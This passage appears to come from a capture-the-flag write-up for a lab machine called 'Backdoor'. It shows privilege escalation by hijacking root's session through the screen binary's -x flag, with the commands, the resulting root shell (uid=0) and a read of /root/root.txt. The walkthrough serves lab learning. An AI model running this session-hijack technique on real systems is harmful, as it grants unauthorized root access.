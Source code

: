 ```bash
-X            Execute <cmd> as a screen command in the specified session.

```
- So as there were no exploits available on the internet we have to play with the flags 
- I tried to exploit with help of GTFO bins and some flags around here 
- So we can get root shell with the `-x` flag  : `-x UserYouWannaHijackSession / HisSessionName`  

#### root

```bash
user@Backdoor:~$ /usr/bin/screen -x root/root
/usr/bin/screen -x root/root

root@Backdoor:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@Backdoor:~# cat /root/root.txt
<--SNIPPED-->
```
- If you didn't get the shell or some error like `Please set a terminal type.` use this command `export TERM=xterm`

#### Box pwned 
![image](https://user-images.githubusercontent.com/56447720/143611602-d17a27c8-6c0c-4321-a196-aacaf50c8a97.png)

